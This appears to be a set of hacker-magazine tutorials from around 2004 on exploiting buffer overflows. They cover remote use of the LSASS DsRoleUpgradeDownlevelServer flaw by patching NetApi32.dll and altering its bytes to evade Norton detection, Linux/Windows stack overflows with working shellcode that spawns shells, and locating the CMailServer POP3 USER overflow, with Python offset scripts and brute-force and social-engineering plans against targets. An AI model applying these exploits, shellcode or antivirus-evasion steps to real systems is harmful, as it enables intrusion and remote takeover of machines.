重启多次，大家可能也想到了——一定是某个函数处理出问题了，是哪一个函数呢？看了 N 久文档，终于明白了，我们刚才用的 Netapi32.dll 中的 DsRoleUpgradeDownlevelServer 函数是一个客户端函数，我们给它的超长参数会在服务端函数 Lsasrv.dll 中的 DsRolerUpgradeDownlevelServer 处理（注意函数名只相差一个 R 哦），服务端函数不会判断请求是哪儿来的。但在通常情况下，客户端函数只向本机发请求，这是微软实现的时候就固定好的，所以我们发请求在默认情况下是给本机的，然后本机的 Lsasrv.dll 中的服务函数进行处理，随后出问题本机重启，就这么简单。

要想远程利用这个漏洞，思路是什么呢？只要能给远程机器发请求，远程机器的服务端函数就会处理请求的超长参数，效果？和本地溢出一样。现在我们的目标就是要给远程机器发送请求了。刚才说了，微软在实现代码的时候就固定了只能向本机发请求。怎么办呢？我们只要把代码改一下，使之不仅仅向本机发请求，也要能向远程发请求，不就可以了？

做个 Hacker 还需 Cracker 技术，在之前大家可能没有想到吧？这里我就直接拿起 IDA，对 NetApi32.dll 开刀了！反编译结束后，我们用名字找到有 DsRoleUpgradeDownlevelServer() 的地方，IDA 真是好，会自动把参数识别出来，而且使用参考重命名，会把所有参考点都自动改动，如图2所示。从函数开始的地方往下走一点点，看到了吗（对了，在 IDA 中，默认是不显示机器码的，在 Options -> General -> Disassembly 页面中有 Number of opcode bytes，默认是 0，我们把它改成 6 或 8 就行了）。

图2

```asm
.text:7513D5F7  8D 45 CC          lea   eax, [ebp+var_34]
.text:7513D5FA  50                push  eax
.text:7513D5FB  6A 00             push  0
.text:7513D5FD  E8 0F 05 00 00    call  _DsRolepEncryptPasswordStart@24
```

根据 eEye 的文档，这里就是我们要修改的地方，上面标出来的 `_DsRolepEncryptPasswordStart` 函数的第一个参数就是主机。微软已经把它固定好了，用的是 `push 0`，就是为空，表示把请求发给本机。我们把它替换成远程主机的地址，不就 OK 了吗？那远程主机的地址从哪儿来呢？ShellCode 的代码是我们从外面的客户端函数 DsRoleUpgradeDownlevelServer() 传来的，那远程主机的地址也从那里传来吧！就用第 9 个参数，因为前面把它赋给了 `[ebp+var_34]` 了，我们把 `[ebp+var_34]` 的内容压入就行。好，就把上面标出来的代码改改，注意改写的时候，要保证字节个数和原来的相同，参数也要压足。除了保证第一个参数压的是 `[ebp+var_34]`，其他乱压也可以，所以我们就这样吧。

```asm
50                push eax
8B 45 CC          mov eax, [ebp+var_34]
50                push eax
90                nop
```

图5

这样就把存在 `[ebp+var_34]` 中的远程主机地址作为第一个参数压入。`nop` 是什么都不做的空指令，目的只是为了保证字节数和原来的相同。调出 WinHex，搜索到我们要修改的地方，像图3一样修改。

#### 什么是特征码？

现在绝大多数杀毒软件都是建立在“病毒特征码”基础上的。有新病毒出现时，厂商先要获得病毒的一个样本，提取出它的特征码，用户把特征码加入到病毒库中才能查杀。如果我们测试出了杀毒软件的判断特征码，将其改成不影响功能的其他指令，就肯定不会被查杀了。从这个意义上来说，反病毒的技术需要一个革命化的突破！

图3

保存为 Ww1NetApi.dll，啊！？诺顿报警了！显示的是 Hacktool.LsassSba。先关掉诺顿，测试一下。在上次 F.Zh 的本地溢出代码基础上稍微修改一下，Load 读我们改过后的 Ww1NetApi.dll，并把第9个参数改成远程主机的地址，就是 `\\ip\ipc$` 的 Unicode 形式。先指定远程主机的 IP 地址，编译执行 1.cpp，再 Telnet 远程主机的 1234 端口，果然连上了要攻击的远程主机。

前面我们是直接物理修改了 NetApi32.dll，就像破解一样，改了物理文件。我们还可以在内存里动态地修改，就如同内存注册机一样，动态读出内存的东西！看 SCZ 的一段话：

哈哈，现在远程利用就初步实现了，但现在的 DLL 是会被查杀成病毒的！好，下面就让杀毒软件不认识！杀毒软件是按照文件的特征码来识别一个病毒或木马的，我们只是在正常的系统文件 NetApi32.dll 基础上改变了 6 个字节，其他完全相同，所以杀毒软件的特征码一定是判断这 6 个字节，我们把这 6 个字节稍微改改，看它还能识别不。

```c
/*
 * 修改 DsRolepEncryptPasswordStart() 第一形参为指定值，
 * 跳转回原流程。
 */
static unsigned char HookCode[] = {
    0xC7, 0x44, 0x24, 0x04,
    0x00, 0x00, 0x00, 0x00,
    0xB8,
    0x00, 0x00, 0x00, 0x00,
    0xFF, 0xE0
};
```

刚才说了，90 是 NOP，表示什么都不做的空指令。我们把它放在其他指令之间，和指令 50 交换一下位置，如图4所示。

这个代码的意思就是直接改变第一个参数为指定值后再执行函数。所以我们让那个 `CALL _DsRolepEncryptPasswordStart` 变成 `CALL _HookCode`，在上面这个 HookCode 里面直接指定第一个参数为远程主机地址，然后才跳去执行函数，这样就在内存里动态地改了。大家有兴趣的话，可以看看 Hook 技术。

图4

然后保存为 Ww2NetApi.dll，让诺顿再扫描，这下没报警了。如果还报警，可以继续改 NOP 的位置，不行的话还可以改成 `MOV EBX`、`PUSH EBX` 等等，办法很多。不会被查杀了。看看效果。我们把程序改为读 Ww2NetApi.dll 再运行，还是成功溢出，如图5所示。

现在经过了一番 Cracker 的洗礼，大家思路也拓宽了很多吧？但还没结束，我们还得继续，回到 Hacker 本身吧。现在我们可以说完美地实现远程溢出了，但带一个 300KB 的 DLL，那也太不爽了吧？试想震荡波拖着这个 DLL 到处跑，也太难为它了，我们就把 DLL 也去掉，完全用一个程序来实现！

怎么实现呢？源代码是微软控制的，一般人看不到。当然对我们菜鸟来说，即使有了源代码，可能也是读不懂请求是如何实现的，更不用说自己写一个请求了。不过根据木桶原理，整体安全强度是由最薄弱的一根木条决定的，我们从这点分析或许有门。

本机向远程发起请求时一定会通过网络，所以我们可以把远程主机发的请求包抓下来，以后即使我们不知道实现的过程，但只要模拟客户端向服务端发送这样的网络包就可以了！说干就干，首先打开 Ethereal，再对远程主机攻击一次，把攻击发送的包抓下来，我们看看效果，如图6所示。

看得出来，1.166 是攻击机，1.169 是被攻击的服务器。166 先是 TCP 握手，然后建立空连接，到“NT Create AndX Request, Path: \lsarpc”那排是关键了，也就是发送一定的请求，然后把我们的超长参数发过去。但我们不用具体了解它的含义，只管把请求复制下来存在数组中，直接向远程机器发就是了。这次运行我们的 2.cpp，又成功了，它可是不带 DLL 的哦！

Sniffer 是很有用的，如果有溢出的 EXE 程序，那我们菜鸟们就不用具体搞清楚协议、实现什么的，到时直接“抓包”发挥菜鸟精神，一句一句地敲在发送数据中就可以了，而且这种方法分析 MS 未文档化的东西，特别是 RPC 相关的东西，那更是相当有用！

文章到了这里就完了，非常感谢《黑客防线》能给我这个和大家一起讨论的机会。特别是老编独哥，一直在给我提醒和帮助，让我学到了不少东西，希望下次还能和大家继续探讨问题。

PS：一上 QQ 独哥就必问稿件进度如何，而且特别关注稿件内容，由此可见对此稿的重视，搞得我这两天都埋头赶工不敢挂 QQ 了。莫非独哥是上线自动问候？问候语就是“稿件进度如何？”哈哈哈……

**WTF：** 相信很多朋友都和我一样，一直都在 Windows 下进行溢出的分析和学习吧？而对 Linux 是能避则避。进入堆溢出的学习阶段后，我发现 Windows 下的资料很少，而且没有相关基础很难理解，所以就计划先啃掉基于 Linux 系统堆溢出的资料。但之前又没怎么碰过 Linux，连知道的一点点操作都忘了，一个堆溢出的例子都搞不定。没办法，我只好再退一步，先把 Linux 下的堆栈溢出学习了，也趁机熟悉熟悉 VI、GCC、GDB。把 Linux 的相关教程过了一遍之后，感觉 Linux 下的溢出和 Windows 下堆栈溢出相比，相似大于相异。如果把它们对比起来学习，那会发现许多美妙之处。

### 在 Windows 下对比学习 Linux 堆栈溢出

文／图 王炜／ww0830

在正式开始我们的 Exploit 学习之前，首先让我们做一个必要的工作：安装虚拟机。因为毕竟是两个系统对照嘛，所以虚拟机当然是最好的选择了。VMWare 是一个虚拟机软件工具，利用它可以在一台机器上同时运行两个或更多的操作系统，即在一个主操作系统平台运行（例如 Windows 2000）的时候，可以像打开一个程序那样简便地打开另一个或多个操作系统平台（例如 Windows 98 或 Linux）。对我们初学 Linux 下操作的人来说，有诸多的好处，后面我们将一一体会到这样的美妙。

第一个好处是便于学习未知的软件和操作。比如 Linux 下的文本编辑器 VI，初学者首次进入时，多半是发觉按什么键都没有用，想退出却怎么也退不出来，换来的是一阵机箱喇叭的狂响，把人气个半死。现在用虚拟机，用 Ctrl+Alt 轻松退到 Windows 环境，然后再去 Google 搜索解决的办法，解决后再进去。嘿嘿，你会发现有 Google 真好，有虚拟机真好！这也是推荐给新手们学习其他操作系统的一个经典方法。同样，我的 GCC、GDB、Objdump 的学习都是这样的，如图1所示。

```c
#include <stdio.h>
#include <string.h>
char name[] = "ww0830";
int main()
{
    char output[12];
    strcpy(output, name);
    printf("%s\n", output);
    return 0;
}
```

程序很简单，就是把 `name` 里面装的字符复制给 `output`，然后把它 print 出来。在 Windows 下，编译、链接、执行，其结果如图2所示，就是把 `ww0830` 输出到屏幕后，安全地退出了。

图1

图2

第二个好处是 VMWare 是窗口模式的，初学者会感到很熟悉，想抓图也很方便，少了学习 Linux 的恐惧感。

第三个好处就是节约硬盘空间了。我们可以安装多个不同的系统进行学习，又不至于像真实系统占用空间那么大。比如我就在 Windows 2000 SP4 的系统上安装了 Windows 2000 SP0、RedHat 7.2、RedHat 8.0，哈哈，想学习什么样的漏洞都有条件了！

好处这么多，或许新手会觉得这样的软件安装起来一定是复杂异常，实际上 VMWare 安装起来非常方便。随着提示点下一步就完成了。然后安装操作系统，在 VMWare 的菜单下选择“File -> New -> New Virtual Machine”，选择要安装系统的类型，然后就会提示你插入安装光盘，以后的安装就如同单一系统的真实安装一样，一点都不会感到陌生。最后运行安装好的系统，点 Power on 就开机了，熟悉的开机画面就出现在我们面前了。简单的安装后我们就有了一个很好的环境，可以在 Windows 下学习 Linux 下的编程和调试，以及缓冲区溢出了。下面进入今天的正题！

#### Linux 和 Windows 堆栈溢出条件对比

我们看一个很简单的漏洞作为例子，在 Windows 和 Linux 系统下，溢出有什么相同和不同。程序如下：

那在 Linux 下呢？我们用 VI 敲一个同样的程序 `vul.c`，然后用命令 `gcc -o vul vul.c` 编译生成可执行文件 `vul`，执行 `./vul`，其结果如图3所示，也是成功运行后安全退出。

图3

接下来我们增加 `name` 数组的长度，在 Windows 下改成“abcdefghijklmnopqrstuvwxyz”，然后运行，结果如图4，溢出了！

仔细看显示的“0x74737271”就是“qrst”，“q”是第17位字母，看起来就是第17个字符覆盖到了 EIP。原因嘛，大家只要看过以前杂志的内容，都应该很清楚：Windows 为 `char output[12]` 分配了12字节的空间，后面是4字节的 EBP，再后面就是4字节的 EIP 了。如果传递给 `output` 的值超过了16个字节，就会进入 EIP，把保存的返回地址覆盖了，这样程序在返回的时候就会出错了，其结构如图5所示。

图4

图5

而在 Linux 下呢？我们先从 a 到 x，居然没有反应？如图6所示。

图6

好，我们继续加长，看它溢出不溢出！加到“yz12”的时候，终于出错了，Linux 下的出错提示信息是“Segmentation fault”，如图7所示。看来给 `output` 分配的空间不仅仅是12个字节，要多得多。这样，我们可以总结出：Linux 和 Windows 堆栈溢出条件是相似的，都是字符串超过数组的大小而溢出；产生溢出后，它们都会报错，可以方便我们定位溢出点。但它们也有些许不同，在 Linux 下不像 Windows 恰好给数组分配定义大小的这么多，Linux 下用 GCC 编译的时候会随机填充一定数目的无用数据。另一个区别是 Windows 报错时，会给出 EIP 当时的值，可以方便我们利用，而 Linux 只会提示段错误，不会报出错的数据。

图7

#### Linux 和 Windows 堆栈溢出利用对比

好了，对比了溢出的产生后，我们再看看溢出的利用有什么异同吧。堆栈溢出的利用有3大条件：

- 返回点的定位
- ShellCode 的编写
- 跳转到 ShellCode

如果大家对这3个条件本身的意义还不清楚，就多翻翻以前的《黑客防线》吧。我们就从这3个条件开始，继续从刚才那个程序，对比着学习 Windows 和 Linux 的缓冲区溢出。

##### 1. 返回点的定位

在 Windows 下，F.Zh 在他经典的《菜鸟版 Exploit 编写指南之一》的文章中，详细地讲述了利用报错对话框精确定位溢出返回点的方法。上面的那个程序溢出的时候大家也看到了，Windows 下弹出报错对话框，显示“0x74737271”指令引用的“0x74737271”内存，该内存不能为“read”（如图8所示）。

图8

里面隐含的意思就是返回点 EIP 被覆盖成了“0x74737271”，执行的时候该地址是不能读的，就有错误了。“0x74737271”是什么呢？前面说了，就是字符串“qrst”，离我们填充的第一个字符“a”正好距离是“q”-“a”=0x71-0x61=0x10=16，所以在报错对话框的帮助下，我们可以轻松地知道，在覆盖了16个字符之后，就到达返回点的位置了。

在 Linux 下，还是类似 Windows 下会报错，但没有 Windows 下那么直观和友好，它只会显示“Segmentation fault”，但也足够了。我们可以逐渐增长得到刚刚报错时的填充长度。回过头来看刚才那个程序，在 Linux 下，我们填充“abc……z12”的时候，就是填充 26 个字母 + 2 个数字 = 28 个字符，刚好报错。Linux 下刚好报错的时候是覆盖到了 EBP，后面 4 个字节就是 EIP 的位置，所以就是在填充了 28 个字符之后，达到了返回点 EIP 的位置。这可比 Windows 分配的缓冲区多多了。

在知道了返回点 EIP 的位置后，我们就可以覆盖返回点为任意值，让程序运行到一个错误的地方，从而出现报错提示。那如果我们特意把 EIP 覆盖成我们想去的程序的地方呢？当然就可以运行我们想要的程序了，而一般的，我们想要的程序称为 ShellCode，看到胜利的曙光了吧？！

##### 2. ShellCode 的编写方法

Shell 最先指人机交互的界面，而这里 ShellCode 不仅仅指交互，它还指可以实现任意功能的代码，可以涉及很多方面。我们想要的程序功能最好是能够开一个 DOS 窗口，那我们就可以做很多事情了。

在 Windows 下，开 DOS 窗口的程序如下：

```c
#include <Windows.h>
int main()
{
    LoadLibrary("msvcrt.dll");
    system("command.com");
    return 0;
}
```

Windows 下执行一个 Command.com 就可以获得一个 DOS 窗口，在 C 库函数里面，语句 `system("command.com")` 将完成我们需要的功能。Windows 是通过动态链接库 DLL 来提供系统函数的，system 函数由 msvcrt.dll（The Microsoft Visual C++ Runtime Library）提供，所以要想执行 system，我们必须首先使用 `LoadLibrary("msvcrt.dll")` 装载动态链接库 msvcrt.dll，之后才能调用 system 函数。

我们执行上面的代码，看看效果吧。弹出来了一个 DOS 对话框，可以执行 DIR、COPY 等任意 DOS 命令，如图 9 所示。


我们要得到机器码形式的 ShellCode，可以在 VC 中按 F10 调试，然后在 Debug 工具栏中点最后一个按钮 Disassemble，这样就出现了源程序的汇编代码，再在代码窗口上点右键，在弹出菜单中选择 Code Bytes，这样就出现了源程序的机器码，如图 10 所示。

原理上我们抄下来这段代码就可以了，但一般情况下，需要用汇编优化一下，并且处理好调用函数地址的问题，这样我们就可以得到 Windows 2000 SP4 下，开 DOS 窗口的 ShellCode 了，没你想象中那么神秘吧？其代码如下：

```c
char shellcode[] =
{0x83,0xE5,0x55,0x8B,0xEC,0x83,0xEC,0x0C,0xB8,0x63,
0x6F,0x6D,0x6D,0x61,0x6E,0x63,0x89,0x45,0xF4,0xB8,0x61,
0x6C,0x64,0x2E,0x89,0x45,0xF8,0xB8,0x63,0x6F,0x6D,0x22,
0x89,0x45,0xFC,0x33,0xD2,0x88,0x55,0xFF,0x8D,0x45,0xF4,
0x50,0xB8,0x24,0x98,0x01,0x78,0xFF,0xD0 };
```

真正要把它构造成可以实战使用的 ShellCode 还有很多问题要解决，比如通用性、编码、功能等，需要很高深的技术功底，但在本文这就不是重点了，也就不深入下去了。

我们的重点还是放在对比上吧，开一个 Shell 窗口的 Linux 代码如下：

```c
#include <stdio.h>
int main()
{
    char *name[2];
    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0], name, NULL);
    return 0;
}
```

#### Linux 和 Windows 跳转到 ShellCode 方法对比

- 1）我们知道了有问题程序返回点的精确位置，可以把它覆盖成任意地址。
- 2）我们有了 ShellCode，可以提供 DOS 窗口或新 Shell 的代码。
- 3）把返回点地址覆盖为 ShellCode 地址，程序返回时即可执行 ShellCode，得到 Shell。

也就是用 execve 函数来执行“/bin/sh”，在 Linux 下编译执行，得到一个新的 Shell 了。在新的 Shell 下，我们也可以执行各种命令，如图 11 所示。


接下来还是把它变成机器码。Linux 函数执行原理是使用系统调用：执行函数时把参数赋给寄存器，再调用中断 Int 80 执行相应函数。

刚才 execve 的执行过程是：将 0xb 拷贝到 EAX（execve 代号），将“/bin/sh”地址复制到 EBX 和 ECX，将 NULL 复制到 EDX，然后执行中断指令 `int $0x80`，因此 Linux 下的 ShellCode 如下：

```c
char ShellCode[] = {
"\x31\xc0"             // xor %eax,%eax
"\x50"                 // push %eax
"\x68\x2f\x2f\x73\x68" // push $0x68732f2f
"\x68\x2f\x62\x69\x6e" // push $0x6e69622f
"\x89\xe3"             // mov %esp,%ebx
"\x8d\x54\x24\x08"     // lea 0x8(%esp,1),%edx
"\x50"                 // push %eax
"\x53"                 // push %ebx
"\x8d\x0c\x24"         // lea (%esp,1),%ecx
"\xb0\x0b"             // mov $0xb,%al
"\xcd\x80"             // int $0x80
};
```

这就是 Windows 和 Linux 下 ShellCode 的来源。在实际编写 Exploit 过程中，两者都有很多现成 ShellCode 可直接使用；理解原理后也可按编码需求自行改写。

分别看看 Windows 和 Linux 是如何实现跳转的。在 Windows 下，ShellCode 地址高位常出现 0x00，容易截断覆盖字符串。1999 年 Dark Spyrit（AKA Barnaby Jack）提出利用系统核心 DLL 指令完成跳转，形成经典思路并沿用至今。

Windows 核心 DLL 包括 Kernel32.dll、User32.dll、Gdi32.dll 等，这些 DLL 常驻内存且对应固定版本加载位置较稳定，高位一般不为 0x00。可用其中的 `jmp esp` 覆盖返回地址，并把 ShellCode 紧跟其后完成跳转。


其原理是：程序返回前 ESP 指向原 EIP 位置，函数返回执行 `RET = Pop EIP`，EIP 变为 `jmp esp` 地址；此时 ESP 下移并指向 ShellCode 首字节（S0），随后执行到 ShellCode。

把 3 步综合起来，对于程序可将缓冲区覆盖成图 13 所示结构。


ShellCode 如图 14 所示。

```c
char name[] = "...";
/* 包含构造后的数据与 shellcode */
```

图 14

我们在程序中把 name 赋成这样的值，它看起来很奇怪，但会得到很奇妙的结果。我们执行它就会弹出我们想要的 DOS 对话框啦，哈哈！图 15 就是实验效果。


图 15

写 main 函数的程序员，他只会去负责读 name 并赋给 output 数组，根本不会感受到 name 数组中会隐藏这样精心构造的恶意代码。对于任何的 name，都会把它读入并作为正常的内容处理，但就有可能会出现他想不到的结果。

再看看 Linux 下的跳转吧。对于 Linux 来说，程序中数组的地址最高位不是 0x00，那要实现跳转就简单多了。我们定义一个 ShellCode 数组，把 ShellCode 的地址读出来，直接把返回点覆盖成地址就可以了！对于上面的程序，其构造的结构如图 16 所示。


图 16

我们先读出 ShellCode 数组的地址。在程序中添上 ShellCode 数组的定义，并打印出它的地址，即 `printf("%p\n", shellcode)`，代码如下：

```c
#include <stdio.h>
#include <string.h>
char shellcode[] = "12345";
char name[] = "...";
int main() {
    char output[12];
    strcpy(output, name);
    printf("%s\n", output);
    printf("%p\n", shellcode);
    return 0;
}
```

执行后，程序打印出 ShellCode 的地址，在我的机器上为 `0x8049580`，果然没有 `0x00` 的字节啊！这样我们就得到了 Linux 下 name 数组的构造结构，如图 17 所示。


图 17

然后把 ShellCode 数组替换成真正打开 Shell 的代码，这样总的程序代码如图 18 所示。

```c
#include <stdio.h>
#include <string.h>
char shellcode[] = "..."; // 真正 shellcode
char name[] = "...";      // 覆盖返回地址
int main() {
    char output[12];
    strcpy(output, name);
    printf("%s\n", output);
    printf("%p\n", shellcode);
    return 0;
}
```

图 18

好，编译、链接、执行！哈哈，弹出新 Shell 来了，如图 19 所示。


图 19

#### 小结

从上面的对照分析，我们可以看出系统底层的东西是可以融会贯通的，所以只要深入地掌握了某个系统的底层，就可以很容易学习领会其他的系统，并且注意力会放在两者相同和不同的地方，更利于理解。

Windows 下堆栈的溢出已经有了很多经典的文章，而 Linux 对初学者来说不太直观，所以用窗口模式和 Windows 作对比，希望至少能从方法上帮助初学者了解相关知识。有任何问题请和编辑部联系，架起我们之间互相联系的桥梁！

WTF：黑防 2004 年 11 期推出了 ISNO 发现的 CCProxy 远程溢出漏洞，受到了很多朋友的关注，EXP 也广泛地流传着。很多菜鸟朋友感受到了漏洞的乐趣，都争先恐后地想学习漏洞发现、编写技术，让自己也过过黑客瘾。本文就是利用《菜鸟版 Exploit 编写指南》系列文章中所讲到的技术，围绕如何发现并分析溢出漏洞而讲的，希望更多的新手能掌握这样的方法，全都成为分析漏洞的高手！

## 菜鸟杀之七

## 分析发掘出 CMail 漏洞


文／图 LoveMelody

看了 ISNO“大虾”的《我是如何发现 CCProxy 漏洞的》，心里痒痒的，也想按照 ISNO“大虾”介绍的方法依葫芦画瓢地分析一个漏洞。分析什么漏洞呢？F.Zh 在《菜鸟版 Exploit 编写指南》的开山之作中详细讲解了 CMailServer 漏洞的利用过程，让我这样的菜鸟受益匪浅，以后屡用其法。但 F.Zh 在文章的最后留下一句话：“定位，如果是固定长度的话，确实可以通过两次溢出定位，但实际上这个是和安装的路径有关的，还有没有好一点的方法来定位呢？”

什么意思我不大明白，F.Zh 也没有再说下去，那我们就尝试分析 CMailServer 吧，看看为什么覆盖那么长的字符串正好实现溢出，也看看能不能解决 F.Zh 说的不定长问题。当然，更重要的是复习总结一下 ISNO 和 F.Zh 介绍的方法，并改进改进，让它更适合我们菜鸟使用。

验证一下，进入 DOS 控制台，在窗口下输入 `Telnet 127.0.0.1 110`，其中 110 是 POP3 协议所用端口，然后输入 USER 和一长串的 a，接着回车，如图 2 所示。


图 2

弹出出错对话框了，Windows XP 下的出错对话框和 2000 不同，没有直接给出报错点，如图 3 所示。


图 3

#### 分析

安装好一个 CMailServer 4.00beta1，应该有漏洞吧，如图 1 所示。


图 1

怎么办？我们不能看到执行的地址了吗？不，还是有办法的。点击对话框中蓝色的字“请单击此处”，系统就会给出详细的出错报告数据了。Offset 61616161，表示执行 `0x61616161` 这个地址时出现了错误。0x61 就是小写的 a，就是我们输入的 USER 中的数据，因为 `0x61616161` 地址非法，所以出错，这下 Windows XP 下的定位和 Windows 2000 一样方便了，如图 4 所示。


图 4

好了，到了使用 ISNO 的方法分析漏洞的时候了。重新启动 CMail，打开 SoftICE，然后再发送超长的字符串，这下 SoftICE 捕获异常，弹了出来，停留在下面这句代码处。

```asm
001B:61616161 FFFF  INVALID
```

意思是 61616161 指向的指令非法。再看看上下左右相关的数据吧，输入 Data 命令，会出现一个数据窗口，然后输入 `d EIP`，就会在数据窗口中显示出如下的值。

```asm
001B: 61616161
001B: 61616171
```

上下左右的数据都是非法的，因为没有代码加载在这个部分，所以系统默认填充 1，就是全 F。原 EIP 和堆栈都已经被我们过长的数据覆盖，现在无法从现今的堆栈中找到问题代码的位置。

> SoftICE 默认情况下是开了异常捕获功能的，即有什么异常发生时会自动激活 SoftICE。我们可以使用指令 `Fault on` 和 `Fault off` 来打开或关闭异常捕获功能。

使用 ISNO 的方法，记下这个时候 ESP 的值，ESP=02AE841C，即某个函数在 02AE841C 附近保存了返回地址，而在函数执行的过程中，保存的返回地址被我们超长字符串覆盖，从而返回时去执行非法的 `0x61616161`。现在的关键就是找到这个在 02AE841C 附近保存地址的函数。

退出 SoftICE，重新启动 CMail，按 Ctrl+D 打开 SoftICE，输入 `Addr CMailServer` 进入 CMail 程序的地址空间，然后下一个 ISNO 介绍的经典断点：`bpmw 02AE841C w`。意思就是当在地址 02AE841C 进行写操作的时候，中断下来。如果一个函数在地址 02AE841C 中保存返回地址，也是一个写操作，就会被中断，我们就可以找到是哪个函数出现了字符串的覆盖。

回到程序空间，再运行攻击代码，果然有写操作时 SoftICE 中断弹了出来。经过几次中断，到达了下面这句指令。

```asm
00415A61: call 004049E0
```

此时 ESP=02AE841C，就是 004049E0 这个函数，把返回地址保存在 `02AE841C-4=02AE8418` 中。如果按 F8 执行，马上就会弹到 `001B:61616161 FFFF INVALID` 中去，而 ESP 会恢复成 02AE841C，我们找到了被覆盖返回地址的函数 004049E0！

ISNO 的方法就是好，按着方法一步步地做就成功了，大家也试试吧。找到了出问题函数后，再用 OllyDbg 来看 004049E0 处的函数。

重新启动挂掉的 CMail，用 OllyDbg 附加上 CMail 进程，然后按 Ctrl+G 输入地址 004049E0，就可以看到如下的代码，如图 5 所示。


图 5

直接看反汇编代码，头看裂了都看不出什么名堂来，还是动态执行，边走边看。在 004049E0 设一个断点，然后再运行我们的攻击程序。执行到 `004049E0 sub esp, 220h` 时，OllyDbg 就会中断下来。按 F8 继续单步执行，在执行的时候注意查看每次调用的参数值。

```asm
00404A72  55   PUSH EBP
```

在内存窗口中按 Ctrl+G，然后输入 EBP，发现 EBP 对应的是我们输入的 `aaaaaaaaaa……` 超长字符串！直觉感到马上水落石出了。下一句是：

```asm
00404A73  PUSH CMailSer.004F9640
```

004F9640 地址是什么呢？在内存窗口中查看 004F9640，是“F:\Study\课堂讲义\投稿\heifang\CMail漏洞分析”——是我机器上 CMail 的安装路径，早知道选个漂亮点的安装位置，免得像现在这样丢脸。算了，还是继续吧：

```asm
00404A7C  PUSH CMailSer.00474498
```

压入的 00474498 内容是“%s\mail\%s”，格式化串！看来就是作复制了。最后压入 EAX，call 一个字符串复制程序：

```asm
00404A81  50          PUSH EAX
00404A82  E8 18730200 CALL CMailSer.0042BD9F
```

明白了，调用这个函数，大概就相当于执行以下代码：

```c
sprintf(EAX,
  "%s\\mail\\%s",
  "F:\\Study\\课堂讲义\\投稿\\heifang\\CMail漏洞分析",
  "aaaaaaaaaaaa......");
```

EAX 中复制 CMail 安装路径 + `\mail\` + 我们发送的 USER 名字，因为没有长度检查，所以导致了溢出！怪不得 Zh 说溢出点和安装路径有关，因为覆盖的字符串中包含有 CMail 的安装路径。

保存返回地址的 ESP＝0x02AE8418，存放字符串的起始地址 EAX＝0x02AE81F8，那么从 EAX 到 ESP 需要的字符串长度为：0x02AE8418－0x02AE81F8＝0x220＝544。其中安装路径“F:\Study\课堂讲义\投稿\heifang\CMail漏洞分析”是 44 个字节，还有“\mail\”是 6 个字节，那么需要覆盖 a 的长度为 544－44－6＝494 字节！

函数执行完毕，保存地址的 0x02AE8418 果然被覆盖成了 0x61616161，如图6所示。


图6

当函数要返回时，就会跳到执行 0x61616161 的地方中去，导致了异常，如图7所示。


图7

#### 验证

上面是通过直接分析得到需要覆盖 a 的长度为 494 字节，但我们菜鸟心中没有底，还是使用熟悉的 F.Zh 黑盒法验证一下！我把 F.Zh 的定位方法改进了一下，分别定位百位、十位、个位，这样更容易定位比较长的溢出。利用 Python 写定位程序，首先定位百位：

```python
import poplib
m = poplib.POP3('127.0.0.1')
s = 'a'*100 + 'b'*100 + 'c'*100 + 'd'*100 + 'e'*100
m.user(s)
```

Python 真是个写 Exp 和测试用的好东东，只要这几句话就给 CMail 服务器发送了 100 个 a，100 个 b，100 个 c……的用户名，报错对话框如图8所示。

65－61＝4，所以百位是 4，然后定位十位。因为知道百位是 4，所以先发送 400 个 a，再发送 10 个 a、10 个 b……程序如下。


图8

```python
import poplib
m = poplib.POP3('127.0.0.1')
s = 'a'*400 + 'a'*10 + 'b'*10 + 'c'*10 + 'd'*10 + 'e'*10 + 'f'*10 + 'g'*10 + 'h'*10 + 'i'*10 + 'j'*10
m.user(s)
```

这次报错对话框变为 Offset: 6a6a6a6a，如图9所示。


图9

6a－61＝9，所以十位为 9，最后定位个位，490 个 a，然后是“abcdefghi”，程序如下：

```python
import poplib
m = poplib.POP3('127.0.0.1')
s = 'a'*490 + 'abcdefghi'
m.user(s)
```

得到 68676665 处不能执行，如图10所示。


图10

那么个位是 65－61＝4，400＋90＋4＝494，果然和直接算出来的一样，494 字节！现在不仅知其然，而且还知其所以然了。

第一种方法比较困难，因为在 CMail 中不存在对齐机制，一个字节的偏差都会导致失败。但对一些如果有 8 字节或 16 字节对齐的服务中，可以考虑用 JMP ESP 地址＋JMP +08 指令进行大片连续覆盖，这样只需要一个覆盖成功，就可以跳入到最后的 ShellCode 中。

#### 解决不定长路径思路

因为 CMail 会把大写字母变成小写字母，所以用 F.Zh 文章里的方法覆盖 494 个 a，然后是 JMP ESP 的地址，最后附上只有小写字母的 Search 代码和 ShellCode 就可以完成利用了！但还有个问题，就是覆盖 494 字节的 a 是在安装路径为“F:\Study\课堂讲义\投稿\heifang\CMail漏洞分析”时，即 44 个字节的情况下造成的。如果别人的安装路径不是 44 个字节，比如 43 个字节，那么就不会导致溢出；如果是 45 个字节，覆盖的返回点没有对正，就会导致 CMail 挂掉而不能利用成功。

第二种方法在 ISN0 的 CCProxy 漏洞利用中使用过，但 CCProxy 的变长字符串是对方的公网 IP 地址，所以我们可以准确地知道长度，而 CMail 中对方的安装路径好像还不容易探测到，可以考虑使用社会工程学，先挂掉对方的 CMail，然后去给他好心地说“独哥啊，你的 CMail 挂了，可能和安装目录有问题哦，是在哪个目录下啊？”等亲爱的 WTF/独行者大哥说出路径并重启 CMail 后……嘿嘿！

- 不管长度为多少，想法让 JMP ESP 的地址对正返回溢出点。
- 想办法知道对方的安装路径，精确计算出覆盖长度。
- 如果字符串较短，虽然不会成功，但不会有挂掉的问题，就可以再次攻击，所以可以一个字节一个字节地增加字符串，直到成功为止。

第三种方法看来最可行，假设路径的长度最大是 128，那就从 544－128－6＝410 个 a 开始覆盖。如果不成功，对方的 CMail 也还会工作，就加长一个字节，即 411 个 a 攻击，再 412 个 a 攻击，直到成功为止。其实在 WebDAV 漏洞中也有一个安装路径的问题，解决的方法也是这样，从小到大一个一个地试。不过 WebDAV 只有 4 种可利用长度，所以测试过程少得多，但 CMail 就比较麻烦了。你还有更好的办法吗？欢迎指教！

